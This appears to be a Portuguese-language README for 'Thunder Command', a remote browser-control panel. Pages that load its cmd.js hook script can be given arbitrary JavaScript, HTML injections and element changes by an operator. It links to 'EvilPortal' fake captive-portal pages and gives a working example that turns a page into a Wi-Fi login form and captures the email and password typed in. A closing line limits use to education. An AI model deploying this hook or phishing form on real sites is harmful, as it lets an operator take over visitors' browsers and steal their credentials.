



# Documentação Painel de Controle - Thunder Command

<h1 align="center">
  
</h1>

## Visão Geral

O Thunder Command permite controlar remotamente páginas web em tempo real, executando comandos JavaScript e manipulando elementos HTML em navegadores de clientes conectados. Este guia explica como utilizar o painel de controle administrativo para interagir com páginas de clientes que incluem o script `cmd.js`.

## Configuração do Cliente

Para transformar qualquer página em um cliente:

```html
<script src="http://seu-servidor:5000/1/cmd.js"></script>
```

## Exemplos Disponíveis

1. **exemple-clear.html** - Página básica para testes simples
2. **exemple-wifi.html** - Simulação de portal captive Wi-Fi
3. **example-class-id.html** - Página com diversos IDs e classes para testes

É possível usar os arquivos HTML do projeto **Brasil EvilPortal HTML Files**:
- https://github.com/MrCl0wnLab/BR-EvilPortal-HTML-Files

## Como Acessar o Painel

1. Inicie o servidor: `python app.py`
2. Acesse: `http://seu-servidor:5000/login`
3. Entre com suas credenciais
4. Você será direcionado para: `http://seu-servidor:5000/admin`

## Funcionalidades do Painel

### 1. Monitoramento de Clientes

A tabela de clientes conectados exibe:
- Status
- ID único
- Endereço IP
- Navegador
- Sistema operacional
- Tipo de conexão

 

### 2. Console de Comandos

O console oferece cinco tipos de interações:

 

#### 2.1. JavaScript (Aba "Javascript")

Execute qualquer código JavaScript nos navegadores dos clientes:

```javascript
alert('Teste de conexão bem-sucedido');
```

```javascript
document.body.style.backgroundColor = '#f0f0f0';
document.title = 'Página sob controle';
```

#### 2.2. HTML (Aba "HTML")

Injete conteúdo HTML no final da página:

```html
<div style="position:fixed;bottom:0;width:100%;background:#ff3860;color:white;padding:15px;text-align:center;">
    Sua sessão expira em 2 minutos. Por favor, salve seu trabalho.
</div>
```

#### 2.3. Manipulação de Elementos (Aba "Manipulação de Elemento")

Modifique elementos específicos usando seletores:

**Por ID:**
```html
Defina a id: #inject1 
Selecione: substituir  
Defina o valor: Este conteúdo foi modificado remotamente
```

**Por classe:**
```html
Defina a class: .desc
Selecione: substituir  
Defina o valor: Descrição atualizada pelo administrador
```

**Operações especiais:**

Adicionar conteúdo no final de um elemento:
```html
Defina a class: #inject1 
Selecione: adicionar 
Defina o valor: <span style="color:red;font-weight:bold;"> (Modificado)</span>
```

Inserir conteúdo antes do elemento:
```html
Defina a class: .inject2 
Selecione: antes 
Defina o valor: <div style="background:#eee;padding:10px;margin:5px 0;">Aviso inserido acima</div>
```

Inserir conteúdo após o elemento:
```html
Defina a class: .inject3 
Selecione: depois
Defina o valor: <p style="font-size:14px;color:#666;">Informação adicional inserida abaixo</p>
```

#### 2.4. Visibilidade (Aba "Visibilidade")

Controle a visibilidade de elementos:

Ocultar elemento:
```html
Defina o id: #inject1 
Selecione: Ocultar
```

Mostrar elemento:
```html
Defina a class: .desc2 
Selecione: Mostrar
```

#### 2.5. Manipulação do Head (Aba "Head")

Adicione conteúdo à seção `<head>`:

```html
<style>
    body { 
        font-family: 'Arial', sans-serif; 
        background: linear-gradient(135deg, #f5f7fa 0%, #c3cfe2 100%); 
    }
    .title { 
        color: #3273dc; 
        text-shadow: 1px 1px 3px rgba(0,0,0,0.2); 
    }
</style>

<meta name="theme-color" content="#4285f4">
```

### 3. Direcionamento de Comandos

* **Cliente específico**: Selecione-o na tabela antes de enviar o comando
* **Todos os clientes**: Clique em "Enviar para Todos"

### 4. Histórico de Comandos

* Acesse até 100 comandos anteriores
* Filtre por tipo de comando
* Reutilize comandos anteriores ao clicar neles

## Exemplos Práticos

### Exemplo 1: Formulário Dinâmico (Portal Wi-Fi)

```javascript
// Na aba "Javascript":
let loginContainer = document.querySelector('.login-container');
loginContainer.innerHTML = `
    <h2 style="text-align:center;margin-bottom:20px;">Conecte-se à Rede Wi-Fi</h2>
    <form id="wifi-form" style="max-width:400px;margin:0 auto;">
        <div style="margin-bottom:15px;">
            <label style="display:block;margin-bottom:5px;">E-mail:</label>
            <input type="email" id="email" style="width:100%;padding:8px;border:1px solid #ddd;" required>
        </div>
        <div style="margin-bottom:15px;">
            <label style="display:block;margin-bottom:5px;">Senha:</label>
            <input type="password" id="password" style="width:100%;padding:8px;border:1px solid #ddd;" required>
        </div>
        <button type="submit" style="width:100%;padding:10px;background:#4CAF50;color:white;border:none;cursor:pointer;">
            Conectar
        </button>
    </form>
`;

document.getElementById('wifi-form').addEventListener('submit', function(e) {
    e.preventDefault();
    let email = document.getElementById('email').value;
    let password = document.getElementById('password').value;
    
    // Enviar dados ao servidor (exemplo)
    console.log(`Credenciais capturadas: ${email} / ${password}`);
    
    // Feedback visual
    loginContainer.innerHTML = '<div style="text-align:center;padding:30px;"><h2>Conectando...</h2></div>';
    
    // Simulação de conexão bem-sucedida
    setTimeout(() => {
        loginContainer.innerHTML = '<div style="text-align:center;padding:30px;"><h2>Conectado com sucesso!</h2><p>Você já pode navegar na internet.</p></div>';
    }, 2000);
});
```

### Exemplo 2: Transformação Visual da Página

Série de comandos para transformar completamente a aparência:

```html
<!-- Na aba "Head": -->
<style>
    body {
        background-color: #1a1a2e;
        color: #e6e6e6;
        transition: all 0.5s ease;
    }
    .title, h1, h2 {
        color: #e94560;
        margin-bottom: 15px;
    }
    .desc, .desc2, p {
        line-height: 1.6;
        margin-bottom: 10px;
    }
    code {
        background: #16213e;
        color: #00b4d8;
        border: 1px solid #0f3460;
    }
    .main {
        max-width: 800px;
        margin: 50px auto;
        padding: 25px;
        background: rgba(26, 26, 46, 0.7);
        border-radius: 10px;
        box-shadow: 0 8px 32px rgba(0, 0, 0, 0.3);
    }
</style>
```

```html
<!-- Na aba "Manipulação de Elemento": -->
Defina a class: .title 
Defina o texto: Página Transformada 🚀
```

```html
<!-- Na aba "HTML": -->
<div style="position:fixed;top:0;left:0;width:100%;background:#e94560;color:white;padding:10px;text-align:center;">
    Esta página está sendo controlada remotamente
</div>
```

## Logs

# Tutorial: Utilizando a Seção de Logs do Olho de Tandera

A seção de Logs do Olho de Tandera é uma ferramenta poderosa que permite monitorar, analisar e reutilizar comandos executados anteriormente. Este tutorial vai mostrar como aproveitar ao máximo essa funcionalidade.

O sistema mantém automaticamente os últimos 100 comandos.

 

## Entendendo a Interface de Logs

A seção de logs exibe os últimos 100 comandos executados, organizados em ordem cronológica inversa (mais recentes primeiro). Cada entrada de log contém:

- **Timestamp**: Data e hora de execução do comando
- **Tipo**: O tipo de comando executado (JS, HTML, Manipulação, Visibilidade, Head)
- **Conteúdo**: O código ou comando executado
- **Alvo**: O cliente ou clientes que receberam o comando
- **Status**: Indicador visual de sucesso ou falha na execução

## Funcionalidades Principais

### 1. Filtragem de Logs

Você pode filtrar os logs por tipo de comando usando o seletor "Filtrar por Tipo":

1. Clique no seletor dropdown na parte superior da seção de logs
2. Escolha entre: Todos, JavaScript, HTML, Manipulação, Visibilidade ou Head
3. A visualização será atualizada instantaneamente mostrando apenas os logs do tipo selecionado

### 2. Reutilização de Comandos

Para reutilizar um comando anterior:

1. Localize o comando desejado na lista de logs
2. Clique no comando para copiá-lo automaticamente para o editor de comandos
3. Você pode editar o comando conforme necessário antes de executá-lo novamente

### 3. Visualização Detalhada

Para ver detalhes completos de um comando:

1. Clique no ícone de expansão (▶) ao lado do comando
2. Uma visualização expandida mostrará informações detalhadas:
   - Código completo (mesmo para comandos longos)
   - Resposta recebida do cliente (em desenvolvimento)
   - Data da execução
   - ID único do comando

## 4. Problemas com Logs

| Problema | Solução |
|----------|---------|
| Logs não aparecem | Clique em "Atualizar" ou recarregue o painel admin |
| Comando não executou conforme esperado | Verifique a resposta detalhada no log expandido para identificar erros |
| Logs não mostram clientes específicos | Verifique se o cliente estava online no momento da execução |

## Dicas Avançadas

- **Agrupamento de Comandos**: Observe padrões em comandos bem-sucedidos para criar sequências eficientes
- **Anotações**: Use a busca para encontrar comandos marcados com comentários específicos (ex: `alert('Hacking is Life');//#exploit-101")`
- **Resolução de Problemas**: Compare logs de execuções bem-sucedidas com falhas para identificar diferenças
- **Auditoria**: Use os logs para documentar todas as mudanças feitas em clientes durante uma sessão

---
<br><br>

## Solução de Problemas

1. **Cliente não aparece**: Verifique a URL do servidor no script cmd.js
2. **Comandos não executam**: Verifique a conexão do cliente (WebSocket vs. HTTP polling)
3. **Erros no console**: Use F12 para abrir o console de desenvolvedor e identificar erros
4. **Cache**: Pressione Ctrl+F5 para recarregar sem cache

---

## Considerações de Segurança

O sistema permite execução de código JavaScript arbitrário em navegadores clientes. Use apenas para fins educacionais em ambientes controlados. O uso do sistema para atividades maliciosas é de responsabilidade exclusiva do usuário.